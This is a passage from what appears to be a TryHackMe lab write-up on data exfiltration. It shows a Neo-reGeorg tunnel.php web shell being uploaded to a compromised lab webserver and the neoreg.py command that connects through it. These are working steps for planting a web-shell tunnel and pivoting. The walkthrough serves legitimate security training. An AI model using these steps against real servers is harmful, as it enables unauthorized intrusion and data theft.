 Then Upload the tunnel.php on the compromise webserver we have access to (use admin as key) :

```console
root@ip-10-10-133-162:/opt/Neo-reGeorg# cd neoreg_servers/
root@ip-10-10-133-162:/opt/Neo-reGeorg/neoreg_servers# ls
key.txt      tunnel.aspx               tunnel_compatibility.jspx  tunnel.jspx
tunnel.ashx  tunnel_compatibility.jsp  tunnel.jsp  
```
{: .nolineno }

![Uploader](/images/thm/dataxexfilt/dataxexfilt_3.png)
_Uploader_

![Upload Confirmation](/images/thm/dataxexfilt/dataxexfilt_4.png)
_Upload Confirmation_

Once it's done, we can launch the neoreg script to connect to the client : 

```console
root@ip-10-10-133-162:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.155.150/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
```